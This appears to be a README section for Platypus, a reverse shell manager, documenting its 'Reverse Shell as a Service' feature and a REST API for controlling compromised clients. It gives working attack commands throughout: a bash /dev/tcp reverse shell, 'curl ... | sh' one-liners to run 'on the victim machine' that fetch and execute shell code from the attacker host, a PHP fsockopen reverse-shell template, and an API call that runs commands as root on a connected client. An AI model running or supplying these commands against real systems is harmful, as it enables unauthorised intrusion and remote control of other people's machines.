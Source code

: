 ## Reverse shell as a Service

> NOTICE: ONLY WORKS when Platypus runs on *NIX

Platypus is able to multiplex the reverse shell listening port. Port 8080 can receive reverse shell client connection, also there is a Reverse Shell as a Service (RaaS) running on this port.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.

To archive this, all you need is to construct a URL that indicates the target.

### Quick start

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/7331 0>&1"` is the equivalent of `curl http://1.2.3.4:1337/5.6.7.8/7331 | sh`, this feature provides the capability to redirect new reverse shell to another ip and port with out type the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/1337`) can be omited, like this:

```bash
curl http://1.2.3.4:1337/ | sh
```

Once the command get executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:1337`.


1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337 | sh` on the victim machine

### Specifying language of reverse shell command (default: bash)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/python | sh` on the victim machine

### What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/5.6.7.8/7331/python | sh` on the victim machine

### How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",__PORT__);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

Then you should run the following command at Platypus project directory and rebuild Platypus.

```bash
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./lib/util/resource/resource.go ./lib/runtime/...
```

## RESTful API

* `GET /client` List all online clients

```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```

* `POST /client/:hash` execute a command on a specific client

```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```

* How to hash?

```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```
